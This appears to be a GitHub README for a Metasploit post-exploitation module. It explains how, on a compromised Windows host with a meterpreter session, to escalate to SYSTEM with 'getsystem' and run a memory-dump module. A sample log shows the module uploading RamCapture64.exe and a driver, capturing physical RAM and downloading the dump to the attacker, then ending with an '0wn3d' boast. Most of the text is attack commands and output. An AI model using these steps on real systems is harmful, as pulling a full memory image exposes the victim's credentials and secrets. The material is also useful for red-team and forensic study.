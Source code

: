# Metasploit Modules

## Utilization

After you got an meterpreter session run the command bellow If the script requires SYSTEM
```
meterpreter > getsystem
```

After that run the script, for example
```
meterpreter > run post/windows/gather/forensics/memorydump RAMCAPTURE_PATH="/tmp/Ram_Capturer/"
```

## Samples
```
meterpreter > getsystem 
...got system via technique 1 (Named Pipe Impersonation (In Memory/Admin)).
meterpreter > run post/windows/gather/forensics/memorydump RAMCAPTURE_PATH="/tmp/Ram_Capturer/"


[*] Executing Dump of x64 architherure host
[!] Sending file, this may take some time...
[*] Uploading file C:\Users\helvio\AppData\Local\Temp\msvcp110.dll
[*] Uploading file C:\Users\helvio\AppData\Local\Temp\msvcr110.dll
[*] Uploading file C:\Users\helvio\AppData\Local\Temp\RamCapture64.exe
[*] Uploading file C:\Users\helvio\AppData\Local\Temp\ramcapturedriver.cat
[*] Uploading file C:\Users\helvio\AppData\Local\Temp\RamCaptureDriver64.sys
[*] Running RamCapture64.exe
[!] This may take some time...
.
[*] Downloading memory dump to /tmp/niYsAkm.vmem
[*] Downloading completed!
[+] 0wn3d by M4v3r1cK!
```

